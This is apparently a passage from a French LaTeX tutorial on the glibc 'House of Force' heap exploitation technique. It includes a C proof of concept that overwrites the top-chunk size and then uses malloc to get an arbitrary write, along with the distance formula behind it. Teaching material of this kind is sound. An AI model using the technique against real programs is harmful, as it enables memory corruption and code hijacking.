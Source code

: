 \begin{verbatim}
#include <stdlib.h>
#include <stdint.h>
#include <malloc.h>

int main() {
    long target_variable = 0; // La variable que nous voulons écraser

    // 1. Allocation initiale pour s'approcher du Top Chunk
    long *ptr = malloc(0x100);

    // 2. Vulnérabilité : Heap Overflow écrasant la taille du Top Chunk
    // En réalité, cela se ferait via une fonction vulnérable (ex: strcpy).
    // Ici, nous simulons l'écrasement en pointant directement sur le header.
    long *top_chunk_size = ptr + (malloc_usable_size(ptr) / sizeof(long));
    *top_chunk_size = -1; // 0xffffffffffffffff

    // 3. Calcul de la distance (Evil_Size)
    // Distance = Cible - Top_Chunk_Actuel - (4 * sizeof(long))
    long evil_size = (long)&target_variable - (long)top_chunk_size - 0x20;

    // 4. Allocation pont (Bridge allocation)
    // malloc avance le pointeur du Top Chunk en utilisant notre taille calculée.
    // L'entier déborde (integer overflow) et boucle l'espace d'adressage.
    malloc(evil_size);

    // 5. L'exploitation
    // La prochaine allocation retournera l'adresse exacte de notre cible.
    long *arbitrary_write = malloc(0x20);
    *arbitrary_write = 0xDEADBEEF;

    return 0;
}
\end{verbatim}

La taille étant maintenant à sa limite maximale, la GLIBC considère que le Top Chunk couvre
l'intégralité de l'espace mémoire virtuel. L'attaquant calcule ensuite la distance exacte pour
atteindre l'adresse cible en utilisant cette formule :

$$Evil\_Size = Target\_Address - Top\_Chunk\_Address - (4 \times \text{sizeof(long)})$$


Ensuite, l’attaquant effectue un appel à \texttt{malloc} en utilisant la taille
précédemment calculée. La GLIBC traite cette requête en avançant le pointeur du
Top Chunk. En raison du débordement d’entier (integer overflow), l’adresse mémoire
« boucle » dans l’espace utilisateur (wrap around). Le nouveau Top Chunk se
retrouve alors positionné juste avant l’adresse cible.

On soustrait $(4 \times \text{sizeof(long)})$ car \texttt{malloc} va créer un
chunk minimal pour conserver la cohérence du tas,
composé d’un champ \texttt{prev\_size} (8~octets), d’un champ
\texttt{size} (8~octets) et d’un payload minimal aligné sur 16~octets, soit un
total de 32~octets (\texttt{0x20}).

